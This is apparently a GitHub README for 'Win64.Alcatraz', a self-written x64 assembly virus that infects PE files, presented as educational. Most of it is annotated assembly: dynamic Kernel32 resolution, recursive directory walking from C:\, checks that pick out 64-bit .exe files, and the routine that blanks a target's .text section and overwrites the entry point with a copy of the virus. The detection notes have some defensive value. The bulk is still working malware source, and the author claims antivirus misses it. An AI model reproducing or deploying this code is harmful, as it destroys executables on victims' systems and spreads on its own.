

# Table of Contents  
- [Disclaimer](#DISCLAIMER)  
- [1 Introduction](#Introduction)  
- [2 Explaining Alcatraz](#Explaining\_Alcatraz)
  - [2.1 Creating a Kernel32 Address Table](#Creating_a_Kernel32_Address_Table)
  - [2.2 Searching for Files](#Searching_for_Files)
    - [2.2.1 Directory_mode vs File_mode](#Directory_mode_vs_File_mode)
    - [2.2.2 Storing / restoring 'directory state'](#Storing_restoring_'directory_state')
  - [2.3 Identifying a valid 64bit executable image](#Identifying_a_valid_64bit_executable_image)
  - [2.4 The Infection Process](#The_Infection_Process)
- [3. The Analyst Perspective](#The_Analyst_Perspective)
<a name="headers"/>


## DISCLAIMER

This code has been developed for educational and academic purposes only. The author is not responsible for any unauthorized use of this code or damage due to its usage. The author strongly discourages launching this program for reasons other than academic.


## Introduction

Win64.Alcatraz is a simple PE infector (virus - non-resident) which I developed to strenghten my Assembly programming skills, as well as the ability to manage the filesystem at usermode level. As part of this repo my goal is to explain a couple of concepts which stands from a Malware and Reverse Engineer perspectives respectively. The followings are central tenets of this repo:


- What a malware infection looks like, and how to recognize an infected executable image;

- How a basic Virus code can search for files and move throughout the filesystem, as well as how it can distinguish a specific class of files (64-bit .exe) from others


**What is a virus?**
A virus is a self-replicating malware which spreads from one file to another. It often targets executable images, so that when they are run the infection process is triggered over and over again.


## Explaining Alcatraz

Alcatraz is a basic example of Malware Virus. It spreads amongst PE executables on the same system, replacing the original code with itself. Also bear in mind that since the executable's original code is scrapped with that of the virus, its functionalities are not preserved. Again, be careful on how you use this code!


### Creating a Kernel32 Address Table

This virus code is an independent shellcode that is able to run in any environment after selfinjection. This means that functions from Kernel32.dll cannot be resolved via load-time linking. Rather, Kernel32.dll addresses have to be retrieved dinamically during execution.

What I name Kernel32AddressTable in the code is an allocation in the heap memory where these function addresses get stored once they are resolved. The virus code saves a pointer to Kernel32AddressTable in r15, so that calling a kernel32.dll function just comes down to making a call to r15 + an integer (es: call QWORD \[r15 + \<int\>\]).


**Figure 1. Building a custom Kernel32 Address Table**



**Figure 2. Calling a WINAPI from Kernel32AddressTable**


Alcatraz calls LocalAlloc to reserve space for kernel32AddressTable in the heap. 104 bytes are initialized to zero because the number of function addresses will be 13 (each function is a QWORD, so 8\*13 = 104). Before calling LocalAlloc, the GetProcAddress address is retrieved by manually parsing the Kernel32.dll IMAGE\_DATA\_EXPORT\_DIRECTORY (credit goes to Dennis Babkin from this original blogpost https://dennisbabkin.com/blog/?t=how-to-implement-getprocaddress-in-shellcode for how to dinamycally resolve GetProcAddress). Then the address of each kernel32AddressTable entry (including LocalAlloc) is retrieved by calling GetProcAddress (stored in r13).


```asm

	<snip>

_getKernel32AddressTable:

	call  _get_Kernel32_Handle    ; get Kernel32.dll base address
	mov   r12, rax                ; *** r12: base addr kernel32.dll ***
	mov   rcx, rax
	call  _get_function_export    ; get GetProcAddress address
	mov   r13, rax                ; *** r13: GetProcAddress ***
  
	lea   rdx, [rbx + 0x10]       ; string: "LocalAlloc". Entrypoint (rbx) + offset to LocalAlloc string
	call  r13
	mov   r15, rax                ; *** r15: store LocalAlloc address for later use ***

	xor   rcx, rcx
	mov   rdx, rcx
	add   rcx, 0x0040
	add   rdx, 104 
	call  rax                     ; LocalAlloc(LPTR, 104)

	mov   r14, rax                ; *** r14: address Kernel32AddressTable (heap memory allocation where all winapi will be stored) ***
	mov   rax, r15
	call  _prepareStoreAddress    ; store LocalAlloc address in Kernel32AddressTable

	<snip>

```


The \_prepareStoreAddress and \_storeAddress procedures are responsible for storing the resolved function address in Kernel32AddressTable.


```asm

	<snip>

_prepareStoreAddress:

	mov   r9, rax 		        ; r9 contains the resolved function address
	xor   r8, r8
	mov   rdx, r8			        ; r8 and rdx are zeroed out
	mov   rcx, r14		        ; rcx becomes a pointer to Kernel32AddressTable

_storeAddress:
	cmp   QWORD [ds:rcx + rdx], r8        ; verying if a given QWORD in Kernel32AddressTable is empty
	jne   _storeAddress_continueIncrement	; if it's not, rdx (counter) gets incremented by the size of a QWORD (8)
	mov   QWORD [ds:rcx + rdx], r9        ; if it is, the resolved function address is moved into Kernel32AddressTable
	mov   rax, rdx
	ret

_storeAddress_continueIncrement:
	add   rdx, 8
	jmp   _storeAddress

	<snip>

```


### Searching for Files

Since this is a very basic example of PE infector, we will use standard Kernel32 file management APIs for finding valid PEs. APIs like CreateFileA, FindFirstFileA, and FindNextFileA are what we need. A pointer to WIN32\_FIND\_DATAA struct has to be passed to FindFirstFileA as second parameter. This data structure is first allocated in the heap memory with LocalAlloc by the \_allocate\_win32\_find\_dataa\_struct procedure, then passed to the function.


```asm

	<snip>

_allocate_win32_find_dataa_struct:
	xor   rcx, rcx
	mov   rdx, rcx
	add   rcx, 0x0040
	add   rdx, 328
	call  QWORD [ds:r15 + 0]    ; LocalAlloc
	mov   r14, rax              ; *** r14: WIN32_FIND_DATAA struct ***

	<snip>

```


Calling FindFirstFileA and FindNextFileA is the easiest part. In my opinion, making the program go up and down directories was more challenging. This is because when the program goes down a directory and then comes back to the previous directory, it would restart enumerating files from the first one if the program state before changing directory is not saved. The 'program state' is just the parameters needed to enumerate files with FindNextFileA, namely a HANDLE and a WIN32\_FIND\_DATAA struct. Before explaining how this works, the program has to be smart as to what file out of the enumerated ones is a directory.


#### Directory\_mode vs File\_mode

Alcatraz can enumerate the content of directories in either 'Directory\_mode' or 'File\_mode', depending on whether it is searching for a PE executable or a directory to open up. The register r12 holds the value related to this. If r12 is set to 0, then directory\_mode is disabled. If r12 is set to 1, then the program is searching for directories. In practical terms, the program first enumerates all files in the current path (r12 set to 0). When FindNextFileA returns error (0), it means that all files have been checked and directory\_mode can be enabled.


```asm

  <snip>

_findNextFile:
	mov   rcx, r13
	mov   rdx, r14
	call  QWORD [ds:r15 + 72]               ; FindNextFileA
	cmp   rax, 0                            ; if FindNextFileA returns 0 (error)...
	jz    _prepareChangeDirectory_prepareExit   ; ...jump to _prepareChangeDirectory_prepareExit procedure to turn on Directory_mode
	cmp   r12, 1
	jz    _changeDirectory

  <snip>

```


When \_findNextFile brings the execution flow to the \_prepareChangeDirectory\_prepareExit procedure, r12 is zeroed out and incremented by one if it's not already. The WIN32\_FIND\_DATAA struct can be freed because FindNextFileA returns error only after all files in the current folder have been listed. Then the \_allocate\_win32\_find\_dataa\_struct procedure will make sure a new struct will be allocated in the heap. Whenever this struct gets populated, the file it contains will be checked in case it's a directory.


```asm
  
  <snip>
  
_prepareChangeDirectory_prepareExit:
	cmp   r12, 1
	jz    _goBackDir

	xor   r12, r12
	inc   r12                                 ; enable Directory_mode
	mov   rcx, r14
	call  QWORD [ds:r15 + 8]                  ; LocalFree(win32_find_dataa) (free old WIN32_FIND_DATAA struct used for enumerating files)
	jmp   _allocate_win32_find_dataa_struct   ; jump back and allocate a new struct that can be used to enumerate directories

  <snip>

```


When a new WIN32\_FIND\_DATAA struct is allocated in the heap with r12 set to 1, the last two instructions of \_findNextFile make sure the execution flow is passed to the \_changeDirectory procedure. The related instruction set verifies whether the enumerated object is a file or a directory. It first checks whether the object is '.' or '..' by calling \_verifyDot. In case there is a match, the object is discarded. \[r14 + 44\] is a pointer to WIN32\_FIND\_DATAA-\>cFileName. If \[r14 + 44\] is equal to the WORD (4 bytes) 0x2E2E ('..') the object gets discarded. Similarly, if adding the BYTE \[r14 + 44\] to \[r14 + 45\] is equal to 0x2E, it means that the object is '.' and can be discarded too.


```asm

  <snip>

_changeDirectory:
	call   _verifyDot

	cmp   rax, 0
	jz    _findNextFile

	lea   rcx, [r14 + 44]             ; WIN32_FIND_DATAA->cFileName
	call  QWORD [r15 + 80]            ; SetCurrentDirectoryA(cFileName)
	cmp   rax, 0
	jz    _findNextFile

	xor   rax, rax
	mov   r11, QWORD [ss:rsp + 104]    ; *** r11: DirectoryData_storage ***
	call  _storeDirectoryData

	dec   r12
	jmp   _allocate_win32_find_dataa_struct

_verifyDot:
	xor   rax, rax
	inc   rax                           ; rax is incremented by 1. This will be returning value if neither a '.' nor a '..' values are found
	cmp   WORD [ds:r14 + 44], 0x2E2E    ; check if file is '..'
	jz    _returnError
	xor   rcx, rcx
	add   cl, BYTE [ds:r14 + 44]
	add   cl, BYTE [ds:r14 + 45]
	cmp   cl, 0x2E                      ; check if file is '.'
	jz    _returnError
	ret

_returnError:
	xor   rax, rax 
	ret

  <snip>

```


With that being done, the \_changeDirectory procedure recognizes a valid directory by comparing the SetCurrentDirectoryA return value with 0 (error). If the WINAPI returns 0, it means that \[r14 + 44\] was not a valid directory (or we don't have permission to access it) and the program jumps back to \_findNextFile. If the function returns 1, the program is in the new directory. The last two instructions of \_changeDirectory are responsible for decrementing r12 by one (turn File\_mode back on) and reallocating a new WIN32\_FIND\_DATAA struct to search for files in the new path.

With that being said, what does 'mov r11, QWORD \[ss:rsp + 104\] does'?


#### Storing / restoring 'directory state'

When the program goes down a directory and finds no valid PEs or folders in it, then it goes back up. However, how does it retrieve the enumeration state of the previous directory, thus avoiding renumerating all files from the beginning? Storing the 'directory state' means storing the values used to define it. To put it simply, the enumeration of a directory depends on the parameters passed to FindFirstFileA and FindNextFileA. These parameters are a HANDLE and the WIN32\_FIND\_DATAA struct. If the programs needs to save the enumeration state for a directory, it has to store these two values somewhere so that it can remember the state as soon as the HANDLE and the WIN32\_FIND\_DATAA struct are retrieved back. Alcatraz saves this data as a QWORD pair in the heap memory. The following snippet within the \_begin procedure allocates 400 bytes in the heap, then saves the pointer on to stack at position rsp + 104. As the directory\_state for one directory is represented by two QWORDS values (HANDLE and WIN32\_FIND\_DATAA), a single directory\_state is a 16-byte value. A 400-byte allocation make sure the program is able to enumerate up to 25 directories deep and safely retrieve the related directory\_states. 


```asm

_begin:

	<snip>

	xor 	rcx, rcx
	mov 	rdx, rcx
	add 	rcx, 0x0040
	add 	rdx, 400              ; 16 * 25 = 400 (can go 25 directories deep)
	call    QWORD [ds:r15]        ; DirectoryData_storage = LocalAlloc(LPTR, 400)
	mov     QWORD [ss:rsp + 104], rax 		; DirectoryData_storage moved on the stack
  
  <snip>

```


When execution is passed to \_changeDirectory, a pointer to 'DirectoryData\_storage' (allocation in the heap) is moved into r11 and the \_storeDirectoryData procedure is called. This memory area gets populated just like kernel32AddressTable. If the first 16 bytes are zero, then r13 and r14 (HANDLE and WIN32\_FIND\_DATAA) are exchanged with these 16 bytes. As a result \[r11 + 0\] is a pointer to the HANDLE, whereas \[r11 + 8\] is a pointer to the WIN32\_FIND\_DATAA. If the first 16 bytes are not zero (they contain a valid QWORDS pair), then rax (counter) is incremented by 16 and added to r11 until an 'empty' space is found.


```asm

  <snip>

_storeDirectoryData:
	cmp   QWORD [ds:r11 + rax], 0
	jne   _addRax
	xchg  QWORD [ds:r11 + rax], r13     ; store previous HANDLE in DirectoryData_storage
	xchg  QWORD [ds:r11 + rax + 8], r14 ; store previous WIN32_FIND_DATAA struct in DirectoryData_storage
	ret

_addRax:
	add   rax, 16 
	jmp   _storeDirectoryData
  
  <snip>

```


If a directory has been enumerated in both File\_mode and Directory\_mode, the execution is passed to the \_goBackDir procedure by \_prepareChangeDirectory\_prepareExit. \_goBackDir instructs the program to go up a directory by calling SetCurrentDirectoryA and passing '..' as parameter. If the function succeds (rax == 1), the Directory\_state of the previous folder is restored by calling \_retrieveDirectoryData. This procedure expects to find r13 and r14 set to zero, as these registers will be populated with the HANDLE and the WIN32\_FIND\_DATAA struct of the previous folder (previous folder's Directory\_state). Similarly, r11 has to be a pointer to DirectoryData\_storage and rax must be equal to the size of it.


```asm

  <snip>

_goBackDir:
	xor   rcx, rcx
	lea   rcx, [ds:rbx + 0xD9]        ; rcx: '..'
	call  QWORD [ds:r15 + 80]         ; SetCurrentDirectory('..')
	cmp   rax, 0
	jz    _clearAndTerminate

	xor   rax, rax
	add   rax, 384
	mov   r11, QWORD [ss:rsp + 104]   ; *** r11: DirectoryData_storage ***
	call  _retrieveDirectoryData
	jmp   _findNextFile

  <snip>

```


The \_retrieveDirectoryData procedure does the opposite of what \_storeDirectoryData did. DirectoryData\_storage gets checked 16 bytes at the time starting from the end of it. This is the reason why rax is equal to the size of this allocation space. The register gets decremented by 16 bytes until the first HANDLE + WIN32\_FIND\_DATAA pair is found. Then r13 and r14 (0) are exchanged with the QWORDS pair, so that the previously occupied 16 bytes in DirectoryData\_storage are zeroed out and r13 and r14 contain the HANDLE and the WIN32\_FIND\_DATAA struct respectively. Then execution returns to \_goBackDir, which jumps back to \_findNextFile. \_findNextFile can now enumerate the remaining files in the directory starting from where it left off.


```asm

  <snip>

_retrieveDirectoryData:
	cmp   QWORD [ds:r11 + rax], 0
	jz    _subRax

	xor   r13, r13
	mov   r14, r13
	xchg  r13, QWORD [ds:r11 + rax]     ; restore previous HANDLE in r13 and zero out the previously occupied space in DirectoryData_storage
	xchg  r14, QWORD [ds:r11 + rax + 8] ; restore previous WIN32_FIND_DATAA struct and zero out the previously occupied space in DirectoryData_storage
	ret

_subRax:
	sub   rax, 16
	jmp   _retrieveDirectoryData 

  <snip>

```

NB:

- This method of storing the 'Directory\_state' works while Alcatraz searches for files starting from C:\\. So when execution completes the enumeration of C:\\ and tries to go back a directory, SetCurrentDirectoryA fails and program exits due to the instructions 'cmp rax, 0' and 'jz \_clearAndTerminate' in \_goBackDir.

- There is probably no need to consider a WIN32\_FIND\_DATAA as part of the Directory\_state. This is because it is more likely that only the HANDLE is used to keep track of the enumeration progress. A struct is just a series of bytes that gets populated.


### Identifying a valid 64bit executable image
Whenever Alcatraz opens a HANDLE to a file with CreateFileA, it calculates its size, then it allocates a memory space in the heap where the file content is read. Clearly, the size of the allocation is equal to the size of the file. So the function will be LocalAlloc(LPTR, sizeof(file)). The program can now check if the file meets the following 64bit .exe criteria:

- The first DWORD must be equal to 0x00905A4D ('MZ')


```asm

	<snip>

	cmp   DWORD [rsi], 0x00905A4D				; check if 'MZ'
	jne   _freeCall

	<snip>

```


- The base of the file plus the value stored at offset 0x3C (IMAGE\_DOS\_HEADER-\>e\_lfanew) must be equal to 0x4550 ('PE') (SIGNATURE)


```asm

	<snip>

	xor   rax, rax
	mov   eax, [rsi + 3Ch]
	add   rax, rsi

	cmp   WORD [ds:rax], 0x4550 				; check if 'PE'
	jne   _freeCall

	<snip>

```

- SIGNATURE plus 4 must be equal to 0x8664 (IMAGE\_FILE\_HEADER-\>Machine is a WORD and identifies a 64bit executable if it is equal to 0x8664)


```asm

	<snip>

	cmp   WORD [ds:rax + 4], 0x8664			; check if 64bit
	jne   _freeCall

	<snip>

```

- IMAGE\_FILE\_HEADER-\>Characteristics is a WORD that must be less than 0x2000. The WORD is stored in rax. If rax AND 0x2000 returns 0, it means that the file is a .exe, otherwise it is a .dll


```asm

	<snip>

	add   rax, 16h
	mov   rcx, rax 
	xor   rax, rax 
	mov   ax, WORD [ds:rcx]
	and   rax, 0x2000
	cmp   rax, 0 								; check if .exe
	jne   _freeCall

	<snip>

```


- The first DWORD of the .text section must not be equal to 0x61636C61 ('alca'). This is a signature that Alcatraz adds during the infection phase so that an infected file can be easily recognized


```asm

	<snip>

	xor   rax, rax
	mov   eax, [rsi + 3Ch]
	add   rax, rsi
	lea   rax, [rax + 18h]
	lea   rax, [rax + 0xf0]
	lea   rax, [rax + 0xC]
	mov   eax, DWORD [ds:rax]
	add   rax, rsi
	cmp   DWORD [ds:rax], 0x61636C61			; verify signature
	jz    _freeCall

	<snip>

```


### The Infection Process
After finding a valid .exe to inject into, Alcatraz gets a pointer to the target .text section. The first DWORD of the section is overwritten with the value 0x61636C61 ('alca'). The rest of the section is padded with nops (0x90). Then the IMAGE\_OPTIONAL\_HEADER of the target is parsed until the value of the entrypoint is found. This value is added to the base address of the target in the heap and Alcatraz copies itself past that address. As a result, when the target program is launched, it starts executing the Alcatraz code rather than its own.


```asm

	<snip>

	xor   rax, rax
	mov   eax, [rsi + 3Ch]			
	add   rax, rsi                  ; SIGNATURE ('PE')
	lea   rax, [rax + 18h]          ; IMAGE_FILE_HEADER
	lea   rax, [rax + 0xf0]
	lea   rax, [rax + 0xC]
	mov   edi, DWORD [ds:rax]       ; *** rdi: IMAGE_SECTION_HEADER->.text[VirtualAddress] ***
	lea   rax, [rax + 4]
	mov   eax, DWORD [ds:rax]       ; *** rax: IMAGE_SECTION_HEADER->.text[size] ***
	lea   rdi, [rsi + rdi]          ; *** rdi: pointer to .text ***
	mov   rcx, rdi
	mov   rdx, rax
	xor   rax, rax
	mov   DWORD [rcx], 0x61636C61   ; write signature 'alca'
	add   rax, 4

_padTextSection:
	mov   BYTE [ds:rcx + rax], 0x90 ; pad .text section
	inc   rax
	cmp   rax, rdx
	jne   _padTextSection

	xor   rax, rax
	mov   eax, [rsi + 3Ch]
	add   rax, rsi
	lea   rax, [rax + 18h]
	lea   rax, [rax + 10h]
	mov   eax, DWORD [ds:rax]       ; *** rax: IMAGE_OPTIONAL_HEADER->AddressOfEntryPoint ***
	lea   rax, [rsi + rax]          ; *** rax: entrypoint ***

	mov   rcx, rax
	xor   rax, rax
	mov   rdx, rax

_copyShellcode1:
	mov   dl, BYTE [ds:rbx + rax]
	mov   BYTE [ds:rcx + rax], dl   ; copy code into the target
	inc   rax
	cmp   rax, r12
	jne   _copyShellcode1

	<snip>

```


When this process is complete, the HANDLE to the file used for reading is closed and a new HANDLE is opened. This HANDLE is then passed to the WriteFile API along with the new code. The generated file overwrites the original one and execution is again passed to the \_findNextFile procedure.


## The Analyst Perspective
Alcatraz is very easy to detect after compilation and linking. However, it seems AV engines do not flag infected files. In any case, the following images show what an infected file looks like. The .text section has been overwritten with nops almost entirely, and the malicious code is present in the middle of it (entrypoint). There is also the signature 'alca' at the beginning of the section.


**Figure 3. New .text section**


**Figure 4. Virus signature**


When an infected calc.exe is loaded onto x64dbg, the entrypoint is the very first Alcatraz instruction. The code before is just a series of nops.


**Figure 5. Infected calc.exe executes Alcatraz code**

